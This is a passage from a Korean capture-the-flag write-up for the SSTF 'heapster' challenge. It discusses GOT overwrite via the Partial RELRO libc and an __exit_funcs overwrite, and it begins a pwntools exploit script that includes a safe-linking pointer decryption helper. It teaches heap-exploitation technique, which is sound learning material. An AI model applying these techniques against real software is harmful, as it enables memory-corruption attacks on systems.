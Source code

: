 
## GOT Overwrite

네? Full RELRO인데 왜 GOT Overwrite를 할 생각을 하냐고요?…. Full RELRO는 heapster 바이너리에 적용되어 있는 거지 함께 제공된 libc.so.6은 Partial RELRO라서 GOT Overwrite할 수 있습니다!

![7wnlkc.jpg](sstf-heapster/7wnlkc.jpg)

사실 저도 얼마 전 공개된 다른 팀의 write up을 보고 위와 같은 사실을 알게 되었습니다… 평소 리눅스를 게을리하지 않아 진작 알고 계셨던 분들은 이게 아니면 대체 뭘로 익스플로잇을 했을까 싶으실 수도 있을 것 같은데요. 저는 이런 중요한 사실을 몰라서 `__exit_funcs`를 덮어쓰는 것으로 익스플로잇 했습니다! ~~이게 또 엄청 오래 걸려서 대회 종료 15분 전에 아슬아슬하게 플래그 제출한건 비밀~~

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'

p = process("./chal")
l = ELF("./libc.so.6")

cmd = lambda x: p.sendlineafter(b'cmd:', str(x).encode())

heap_base = 0

def decrypt_safe_linking(ptr):
    _12bits = []
    dec = 0
    while ptr != 0:
        _12bits.append(ptr & 0xfff)
        ptr = ptr >> 12

    x = _12bits.pop()
    while len(_12bits) > 0:
        dec |= x
        dec = dec << 12
        y = _12bits.pop()
        x = x ^ y
    dec |= x
```